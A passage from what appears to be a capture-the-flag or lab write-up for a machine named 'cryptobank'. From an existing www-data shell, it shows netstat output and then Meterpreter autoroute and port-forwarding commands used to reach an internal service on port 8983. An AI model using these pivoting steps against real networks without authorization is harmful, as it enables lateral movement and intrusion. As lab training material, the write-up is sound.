 ## Root Shell

After some enumeration, I found that the machine was listening from some other IP on port 8983. 

```r
www-data@cryptobank:/home/cryptobank$ netstat -tulpn
netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 172.17.0.1:8983         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 192.168.1.9:68          0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           -                   
udp6       0      0 :::5353                 :::*                                -                   
www-data@cryptobank:/home/cryptobank$ 
```

I closed my shell, and went back to the meterpreter console. I then mapped the subnet that IP address was on, using the command below:

```r
meterpreter > run autoroute -s 172.17.0.0/24

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.17.0.0/255.255.255.0...
[+] Added route to 172.17.0.0/255.255.255.0 via 192.168.1.8
[*] Use the -p option to list all active routes

meterpreter > portfwd add -l 81 -p 8983 -r 172.17.0.1
[*] Local TCP relay created: :81 <-> 172.17.0.1:8983
meterpreter > 

```
